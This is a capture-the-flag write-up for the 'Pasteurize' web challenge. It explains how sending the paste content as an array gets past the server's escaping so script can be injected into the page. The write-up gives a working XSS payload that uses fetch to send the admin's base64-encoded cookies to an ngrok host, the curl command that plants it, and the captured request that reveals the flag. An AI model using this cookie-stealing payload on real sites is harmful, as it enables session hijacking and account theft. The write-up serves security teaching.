 # Pasteurize

## Enumeration

Looking at the site, it looks as if there's a place to enter the contents for a paste.  You can then visit the paste.  On the viewing page there's a link to
send the note to TJMike, the administrator.  The source of the create/index page has a hidden link to `/source` and it gives us the source for the main server file.

```html
<body>
    <nav class="navbar navbar-expand-md navbar-light bg-light">
    <div class="collapse navbar-collapse mr-auto">
        <a href="/" class="navbar-brand">Pasteurize</a>
    </div>
</nav>
    <div class="container w-50 pt-5">
        <h3>Create new paste</h3>
        <form class="form" method="post">
            <textarea class="form-control" name="content"></textarea>
            <input type="submit" class="mt-3 btn btn-primary btn-block" value="Submit">
        </form>

    </div>
    
    <a href="/source" style="display:none">Source</a>
    
</body>
```

Looking at the source of the view page, it seems that the contents of our paste is injected into the javascript of the page, and then that text is run
through DOMPurify, before being inserted into the DOM.

```html
  <script>
      const note = "CONTENTS_OF_NOTE_GOES_HERE";
      const note_id = "43ce8abb-7c84-43da-9fc4-07732bab30aa";
      const note_el = document.getElementById('note-content');
      const note_url_el = document.getElementById('note-title');
      const clean = DOMPurify.sanitize(note);
      note_el.innerHTML = clean;
      note_url_el.href = `/${note_id}`;
      note_url_el.innerHTML = `${note_id}`;
  </script>
```

Lets see if we can escape quotes around the note variable by looking at the server source.

### Server Source

The first thing that stands out in the source is the extended body parser

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

This means we can send arrays and objects as the content.  Looking at the `POST /` route we see the note is inserted into a `Datastore` without much processing.
Looking at the code to retrieve the note we see that it's sanitized somewhat before being embedded into a view template.

```js
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

First the value is stringified into JSON, which will escape a lot of control characters.  Then the first and last characters are removed via slice, and then less than and greater than
characters are escaped.  If we can pass this function an array with a string in it, after stringification it should look like `["value goes here"]`, then the brackets will be removed.
So we should be able to inject a payload if we don't use characters that are escaped in JSON.

## Testing

To test our assumptions lets create a note using `content[]=value` as the note content.

```sh
╭─zoey@virtual-parrot ~/sec ‹master*› 
╰─$ curl https://pasteurize.web.ctfcompetition.com --data-raw "content[]=value"
Found. Redirecting to /d43840ea-ed52-440e-8c01-8733d6ab3be7
```

And when we check the rendered note, in the source we see the following:

```html
<script>
  const note = ""value"";
  const note_id = "d43840ea-ed52-440e-8c01-8733d6ab3be7";
  const note_el = document.getElementById('note-content');
  const note_url_el = document.getElementById('note-title');
  const clean = DOMPurify.sanitize(note);
  note_el.innerHTML = clean;
  note_url_el.href = `/${note_id}`;
  note_url_el.innerHTML = `${note_id}`;
</script>
```

Our assumptions worked, but the above is not valid javascript.  So lets craft a payload to try to do the usual thing, which is trying to retrieve the admin's cookies, and we need to do it without using any characters that would be escaped by `JSON.stringify`.

## Exploiting

First lets end the statement with `;`, and then lets encode `document.cookie`,  and send it to our own server.  For the URL string we'll use backticks since they aren't escaped.  We'll also need 
to take care of the trailing quote, and to do that we just need to ensure we end the payload with a semicolon as an empty string on its own is valid javascript.  So our payload ends up looking 
like the following:

```js
;fetch(`https://0853395be8b7.ngrok.io/` + btoa(document.cookie));
```

and when rendered into the page we should get:

```html
<script>
  const note = "";fetch(`https://0853395be8b7.ngrok.io/` + btoa(document.cookie));"";
  const note_id = "d43840ea-ed52-440e-8c01-8733d6ab3be7";
  const note_el = document.getElementById('note-content');
  const note_url_el = document.getElementById('note-title');
  const clean = DOMPurify.sanitize(note);
  note_el.innerHTML = clean;
  note_url_el.href = `/${note_id}`;
  note_url_el.innerHTML = `${note_id}`;
</script>
```

Let's fire up ngrok and our own local http server, and then create the note with the payload via curl.  Be sure
to url encode the + so it doesn't end up as a space.

```sh
╭─zoey@virtual-parrot ~/sec ‹master*› 
╰─$ curl https://pasteurize.web.ctfcompetition.com --data 'content[]=;fetch(`https://0b7660a35154.ngrok.io/`%2Bbtoa(document.cookie));'
Found. Redirecting to /a536d492-4d6f-4d42-b1b5-5a28216e2cd9  
```

Now lets visit our new note in the browser and share it to the admin.  If everything worked properly we should get the following request sent to our server:

```http
22:55:53: GET /c2VjcmV0PUNURntFeHByZXNzX3QwX1RyMHVibDNzfQ==
        Host: 0b7660a35154.ngrok.io
        Pragma: no-cache
        Cache-Control: no-cache
        sec-ch-ua: 
        sec-ch-ua-mobile: ?0
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
        Accept: */*
        Origin: https://pasteurize.web.ctfcompetition.com
        Sec-Fetch-Site: cross-site
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://pasteurize.web.ctfcompetition.com/a536d492-4d6f-4d42-b1b5-5a28216e2cd9
        Accept-Encoding: gzip, deflate, br
        X-Forwarded-Proto: https
        X-Forwarded-For: 104.155.55.51
```

Then when we decode the base64 we get `secret=CTF{Express_t0_Tr0ubl3s}`.
